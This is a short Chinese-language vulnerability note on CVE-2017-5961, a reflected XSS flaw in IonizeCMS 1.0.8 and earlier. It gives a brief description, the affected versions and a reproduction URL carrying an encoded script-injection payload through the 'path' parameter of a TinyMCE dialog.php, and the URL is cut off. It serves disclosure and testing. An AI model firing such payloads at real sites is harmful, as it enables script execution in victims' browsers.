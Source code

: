 （CVE-2017-5961）IonizeCMS xss
==============================

一、漏洞简介
------------

该漏洞源于在'path'HTTP
GET参数传递到'ionize-master/themes/admin/javascript/tinymce/jscripts/tiny\_mce/plugins/codemirror/dialog.php'URL时，程序没有充分地过滤此参数中用户提交的数据。攻击者可利用该漏洞在浏览器中执行任意的HTML和脚本代码。

二、漏洞影响
------------

\<=Ionize 1.0.8

三、复现过程
------------

    http://0-sec.org/testcmsofgithub/ionize-master/ionize-master/themes/admin/javascript/tinymce/jscripts/tiny_mce/plugins/codemirror/dialog.php?path=%22%3E%3C/script%3E%3Cscript%3Ealert(1);%3C/script%3E%3Cscript%20%2
